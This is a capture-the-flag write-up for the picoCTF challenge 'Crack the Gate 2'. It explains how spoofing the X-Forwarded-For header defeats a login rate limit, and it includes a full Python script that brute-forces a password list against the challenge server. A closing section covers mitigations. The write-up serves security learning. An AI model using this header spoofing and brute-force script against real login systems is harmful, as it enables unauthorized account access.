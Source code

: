 # Crack the Gate 2 - Rate Limit Bypass Challenge

## Challenge Overview

**Challenge Name:** Crack the Gate 2  
**Category:** Web Exploitation  
**Points:** 200  
**Author:** Yahaya Meddy

## Challenge Description

The challenge presents a login system with basic rate-limiting that locks out users after repeated failed attempts from the same source. The key vulnerability is that the system trusts user-controlled headers for IP identification. The goal is to bypass the rate-limiting mechanism to brute-force the correct password for the email `ctf-player@picoctf.org`.

## Initial Analysis

When attempting to login with incorrect credentials, the server responds with:

```json
{
  "success": false,
  "error": "Too many failed attempts. Please try again in 20 minutes."
}
```

The challenge provides a list of 20 potential passwords and hints that the system might trust user-controlled headers for rate limiting.

## Vulnerability Identification

The critical vulnerability is **IP-based rate limiting that can be bypassed via the `X-Forwarded-For` header**. This header is commonly used to identify the original client IP when requests pass through proxies or load balancers.

## Exploitation Strategy

### Step 1: Understanding the Rate Limit Bypass

The rate limiting tracks requests by IP address. By spoofing the `X-Forwarded-For` header with different values for each request, we can make the system believe each login attempt comes from a different client, thus bypassing the rate limit.

### Step 2: Automated Brute-Force Approach

We create a Python script that:

1. Iterates through each password in the provided list
2. Uses a different IP address in the `X-Forwarded-For` header for each attempt
3. Checks for successful login by examining the JSON response content

### Step 3: The Exploit Code

```python
import requests
import time

url = "http://amiable-citadel.picoctf.net:57483/login"
email = "ctf-player@picoctf.org"

passwords = [
    "tkY83OwR", "vISQRFmM", "471HtPne", "s8nXfR6X", "WoQEk5GL",
    "eu8z9EFn", "0SMi2c8U", "WlHiKuw6", "0iaXgUGR", "shNKoNrW",
    "KaqwDEUA", "eSqOLef7", "CueFICmh", "MZZSJucZ", "eZQR9yx7",
    "sPEIun6X", "p0fkX9cA", "CY1sEmC6", "M707m17w", "8thnKYYn"
]

for i, password in enumerate(passwords):
    headers = {
        "Content-Type": "application/json",
        "X-Forwarded-For": f"10.0.{i//256}.{i%256}"
    }

    data = {"email": email, "password": password}

    response = requests.post(url, json=data, headers=headers)
    response_data = response.json()

    print(f"Attempt {i+1}: {password} - Status: {response.status_code}")

    if response_data.get('success') == True:
        print(f"\n🎉 SUCCESS! Correct password found: {password}")
        print(f"Full response: {response_data}")
        if 'flag' in response_data:
            print(f"\n🚩 FLAG: {response_data['flag']}")
        break
    else:
        print(f"  ↳ Login failed (success: {response_data.get('success')})")

    time.sleep(0.5)
```

![result](./img/result.png)

## mitigation:

To mitigate X-Forwarded-For header spoofing, implement multi-layered rate limiting that combines IP addresses with user sessions, tokens, or behavioral fingerprints; only trust the header from known, internal proxies while validating it against the actual connection IP, and use cryptographic signatures for headers when they pass through trusted infrastructure. Additionally, employ database-backed rate limiting with request fingerprinting that considers multiple factors like user-agent, geographical patterns, and timing to make bypass attempts significantly more difficult.
